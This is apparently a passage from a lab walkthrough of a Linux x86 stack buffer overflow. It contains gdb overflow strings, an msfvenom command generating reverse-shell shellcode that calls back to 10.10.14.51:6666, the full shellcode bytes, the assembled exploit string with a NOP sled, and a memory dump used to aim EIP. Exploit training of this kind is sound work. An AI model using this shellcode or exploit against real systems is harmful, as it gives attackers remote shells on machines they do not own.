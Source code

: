 ```
run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

The bad character *\x00\x09\x0a\x20*

Lets create a shell code to get access without the bad characters. 

```
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.10.14.51 --bad-chars "\x00\x09\x0a\x20" lport=6666 --platform linux --arch x86 --format c   
Found 11 compatible encoders  
Attempting to encode payload with 1 iterations of x86/shikata\_ga\_nai  
x86/shikata\_ga\_nai succeeded with size 95 (iteration=0)  
x86/shikata\_ga\_nai chosen with final size 95  
Payload size: 95 bytes  
Final size of c file: 425 bytes  
unsigned char buf\[\] =    
"\xbe\xb3\x33\xd8\xbf\xdb\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"  
"\x12\x83\xeb\xfc\x31\x73\x0e\x03\xc0\x3d\x3a\x4a\x17\x99\x4d"  
"\x56\x04\x5e\xe1\xf3\xa8\xe9\xe4\xb4\xca\x24\x66\x27\x4b\x07"  
"\x58\x85\xeb\x2e\xde\xec\x83\xba\x2a\x01\x60\xd3\x28\x1d\x9c"  
"\x29\xa4\xfc\x10\x4b\xe6\xaf\x03\x27\x05\xd9\x42\x8a\x8a\x8b"  
"\xec\x7b\xa4\x58\x84\xeb\x95\xb1\x36\x85\x60\x2e\xe4\x06\xfa"  
"\x50\xb8\xa2\x31\x12";
```

payload
```
\xbe\xb3\x33\xd8\xbf\xdb\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x73\x0e\x03\xc0\x3d\x3a\x4a\x17\x99\x4d\x56\x04\x5e\xe1\xf3\xa8\xe9\xe4\xb4\xca\x24\x66\x27\x4b\x07\x58\x85\xeb\x2e\xde\xec\x83\xba\x2a\x01\x60\xd3\x28\x1d\x9c\x29\xa4\xfc\x10\x4b\xe6\xaf\x03\x27\x05\xd9\x42\x8a\x8a\x8b\xec\x7b\xa4\x58\x84\xeb\x95\xb1\x36\x85\x60\x2e\xe4\x06\xfa\x50\xb8\xa2\x31\x12
```

We have to adjust our payload again 

```
run $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xbe\xb3\x33\xd8\xbf\xdb\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x73\x0e\x03\xc0\x3d\x3a\x4a\x17\x99\x4d\x56\x04\x5e\xe1\xf3\xa8\xe9\xe4\xb4\xca\x24\x66\x27\x4b\x07\x58\x85\xeb\x2e\xde\xec\x83\xba\x2a\x01\x60\xd3\x28\x1d\x9c\x29\xa4\xfc\x10\x4b\xe6\xaf\x03\x27\x05\xd9\x42\x8a\x8a\x8b\xec\x7b\xa4\x58\x84\xeb\x95\xb1\x36\x85\x60\x2e\xe4\x06\xfa\x50\xb8\xa2\x31\x12" + "\x66" + 4')
```

```shell-session
run $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xbe\xb3\x33\xd8\xbf\xdb\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x73\x0e\x03\xc0\x3d\x3a\x4a\x17\x99\x4d\x56\x04\x5e\xe1\xf3\xa8\xe9\xe4\xb4\xca\x24\x66\x27\x4b\x07\x58\x85\xeb\x2e\xde\xec\x83\xba\x2a\x01\x60\xd3\x28\x1d\x9c\x29\xa4\xfc\x10\x4b\xe6\xaf\x03\x27\x05\xd9\x42\x8a\x8a\x8b\xec\x7b\xa4\x58\x84\xeb\x95\xb1\x36\x85\x60\x2e\xe4\x06\xfa\x50\xb8\xa2\x31\x12" + "\x66" * 4')
```


We know need to identify the address our EIP need to point toward.  

```shell-session
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd614:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd61c:     0x55    0x90    0x90    0x90    0x90    0x90    0x90    0x90 
					# ---> start of nops 
0xffffd624:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd62c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd634:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd63c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd644:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd64c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
```